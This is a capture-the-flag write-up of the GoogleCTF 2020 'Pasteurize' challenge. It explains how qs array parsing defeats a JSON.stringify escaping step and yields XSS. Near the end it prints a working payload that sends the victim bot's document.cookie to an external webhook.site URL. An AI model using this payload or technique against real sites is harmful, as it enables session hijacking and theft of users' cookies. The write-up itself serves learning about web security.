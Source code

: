 ```yaml
---
title: "GoogleCTF 2020: Pasteurize"
date: 2020-08-23T17:35:14-06:00
draft: false
comments: false
images:
tags:
    - writeups
    - web
    - xss

category: writeup
---
```


This is the first challenge I worked on. I will soon upload a post on the second one. (As GoogleCTF 2020 ended on the day of this post, I will be omitting the flag from this article. I will update it once enough time has passed.)

## Let's Begin!

The challenge lets us load into the DOM whatever we want through this pastebin-esque function.

When you make a note, you have an option to share it with a "TjMike" Entity. Sign of XSS/CSRF attacks?

Looking into the HTML, whatever content we put into the note is immediately shoved into a javascript string. However, if you try to input quotation marks in there, the DOMpurify clean function escapes it. So, if we can get an unescaped quote in there, we can do whatever want. Let's focus on the comment.

{{< image src="/images/google2020source.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Going to the ``/source`` endpoint takes us, well, directly to the webpage's app file. 

Of note are the app's use of using the Express BodyParser to operate on 'extended' mode (using the `qs` library instead of the `querystring` library).

{{< image src="/images/Google2020bodyparser.png" alt="Login" position="center" style="border-radius: 8px;" >}}

In the source we also see:

{{< image src="/images/google2020json.png" alt="Login" position="center" style="border-radius: 8px;" >}}

``JSON.stringify(unsafe)`` - if our content (unsafe) is a string, then the function simply adds additional quotation marks onto the string, and the ``slice(1,-1)`` function removes those extra quotations, before feeding it to the DOM to be rendered. What if our input isn't a string - what if it's an array? 

The [``qs``](https://www.npmjs.com/package/qs#parsing-arrays) library allows arrays to be parsed from HTTP requests if theyre stipulated as:

```
{
    array[]=a&array[]=b

    //array = [a,b]
}
```

When we make a note (POST request to ``/note``), intercept the request via burpsuite. Modify your query there. Change ``content=`` to ``content[]=`` (Alternatively, you can CURL your request to not deal with proxy settings).


{{< image src="/images/google2020pastalert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/google2020xss.png" alt="Login" position="center" style="border-radius: 8px;" >}}

If we go to the page, we see that an alert is prompted - aka, we have succesfully escaped the JS string and can write javascript code as normal. That being said, let's go ahead and craft a payload to xss TJMike (I am being lazy and reusing an old payload of mine from before and modifying it).

```
content[]=; document.getElementById('note-content').onLoad = fetch('https://webhook.site/64627794-30a4-466d-b93a-537bdebca744', {method:'POST', body:JSON.stringify({data:document.cookie})});const uwu = 
```

Share our note to TJMike. Wait for our server to grab their cookie. 
